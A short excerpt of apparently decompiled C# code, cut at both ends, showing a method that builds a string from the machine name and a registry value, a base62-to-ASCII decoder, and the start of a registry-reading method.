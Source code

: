 ```cs
			string value = text + machineName + "_" + text2 + registryValue + "}";
			stringBuilder.Append(value);
		}
		catch (Exception ex)
		{
			stringBuilder.AppendLine($"Error: {ex.Message}");
		}
		return stringBuilder.ToString();
	}

	private string DecodeMagicToString(string input)
	{
		try
		{
			if (string.IsNullOrEmpty(input))
			{
				return string.Empty;
			}
			List<byte> list = new List<byte>();
			foreach (char value in input)
			{
				int num = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz".IndexOf(value);
				if (num < 0)
				{
					return "Invalid character";
				}
				int num2 = num;
				for (int num3 = list.Count - 1; num3 >= 0; num3--)
				{
					int num4 = list[num3] * 62 + num2;
					list[num3] = (byte)(num4 % 256);
					num2 = num4 / 256;
				}
				while (num2 > 0)
				{
					list.Insert(0, (byte)(num2 % 256));
					num2 /= 256;
				}
			}
			int j;
			for (j = 0; j < list.Count && list[j] == 0; j++)
			{
			}
			if (j >= list.Count)
			{
				return string.Empty;
			}
			byte[] array = new byte[list.Count - j];
			for (int k = 0; k < array.Length; k++)
			{
				array[k] = list[j + k];
			}
			return Encoding.ASCII.GetString(array);
		}
		catch (Exception ex)
		{
			return "Decode error: " + ex.Message;
		}
	}

	private string GetRegistryValue()
	{
```